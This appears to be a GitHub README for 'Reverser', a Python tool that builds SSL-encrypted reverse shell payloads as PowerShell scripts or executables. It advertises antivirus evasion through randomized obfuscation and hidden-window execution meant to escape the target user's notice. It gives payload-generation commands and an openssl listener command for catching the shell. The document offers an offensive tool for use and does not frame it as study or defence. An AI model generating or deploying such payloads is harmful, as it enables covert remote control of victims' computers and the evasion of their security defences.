 # Reverser Tool

**Reverser** is a Python-based tool designed to generate reverse shell payloads with SSL encryption. The tool provides the ability to create either a PowerShell script (`.ps1`) or an executable file (`.exe`) that establishes a secure reverse shell connection to a specified IP address and port.

## Features

- **SSL Encryption**: The tool generates an SSL certificate and key to encrypt the reverse shell communication, enhancing security and bypassing basic network security measures.
- **Payload Generation**: Users can generate either a PowerShell script or an executable file. The payload is obfuscated to avoid detection by antivirus software.
- **Randomized Obfuscation**: The tool can randomize the obfuscation of the payload to further reduce the chance of detection by static analysis tools.
- **Hidden Execution**: Both the PowerShell script and the executable are designed to run in a hidden window, minimizing the likelihood of detection by the target user.
- **Auto-generated Files**: The executable file, when run, generates the PowerShell script on disk, hides it, and executes it to establish the reverse shell connection.
- **Customizable**: The IP address, port, and output file names can be customized through command-line arguments.

## Usage

1. **Generating an SSL Certificate**:
   The tool automatically generates an SSL certificate and key that will be used to encrypt the reverse shell communication.

2. **Generating a Payload**:
   - To generate a PowerShell script:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type ps1
     ```
   - To generate an executable:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe
     ```

3. **Randomized Obfuscation**:
   - To enable randomized obfuscation:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe -random
     ```

4. **Starting an SSL Listener**:
   Once the payload is generated, start an OpenSSL listener on your machine to accept the reverse shell connection:
   ```bash
   openssl s_server -accept <Your_Port> -cert reception.pem -key reception.key -quiet
